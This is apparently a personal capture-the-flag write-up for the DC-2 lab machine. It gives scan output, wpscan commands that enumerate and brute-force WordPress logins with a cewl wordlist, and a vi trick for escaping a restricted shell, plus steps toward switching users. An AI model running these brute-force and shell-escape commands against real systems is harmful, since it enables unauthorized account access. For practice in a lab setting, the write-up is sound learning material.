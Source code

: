 Linux ttl=61

# rustscan

```
80/tcp   open  http       syn-ack ttl 61
7744/tcp open  raqmon-pdu syn-ack ttl 61
```

# nmap

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.11 - 4.1 (91%), Linux 4.4 (91%), Linux 3.2.0 (90%), Linux 3.16 (89%), Linux 3.13 (89%), Linux 3.10 - 4.11 (87%), Linux 3.12 (87%), Linux 3.13 or 4.2 (87%), Linux 3.16 - 4.6 (87%), Linux 3.2 - 4.9 (87%)
No exact OS matches for host (test conditions non-ideal).
```


Got only 2 ports

# initial

need to add ip in hosts as `dc-2`
it was wordpress site

![[Pasted image 20240614004206.png]]

as suggested, need to do something with `cewl`

> [!NOTE]
> Cewl auto makes wordlists from a webpage

### cewl

```
cewl http://dc-2/ -m 5 -w words.txt
```

but as it was wordpress, started this command without thinking more

```
wpscan --url http://dc-2/ -e p,vt,tt,cb,dbe,u,m --plugins-detection aggressive --plugins-version-detection aggressive
```

but it takes a lot of time as we don't need everything from it

![[Pasted image 20240614004720.png]]

though it given me useful shit

### wpscan

```
wpscan --url http://dc-2/ -e u --plugins-detection aggressive --plugins-version-detection aggressive
```

this thing given me users

```
wpscan --url http://dc-2/ -U users -P words.txt
```

brute force for wordpress

![[Pasted image 20240614005007.png]]

login into wordpress but it was just normal users so didn't got admin panel so toested toester suggested for SSH

# priv esc

got SSH shell as tom

![[Pasted image 20240614005449.png]]

and that was -rbash shell which is limited, can't run even any command with `/`

![[Pasted image 20240614005654.png]]

need to breakout that stupid `-rbash`

### 2 ways to escape

#### 1. vi

gtfobins

```
vi
:set shell=/bin/sh
:shell
```

![[Pasted image 20240614012038.png]]

1st didn't worked only if I tried 2nd then didn't wasted 30 minutes lol but I leaned new way of scp
#### 2. bin/bash transfer - easy/peasy

even downloaded `static bash linux` but didn't worked

https://github.com/robxu9/bash-static/releases/tag/5.2.015-1.2.3-2

make this `bash.sh`

![[Pasted image 20240614013206.png]]

![[Pasted image 20240614013323.png]]
### actual priv esc

then tried to switch user to jerry and it worked for known password

![[Pasted image 20240614012528.png]]

woo-hoo gtfobins lol!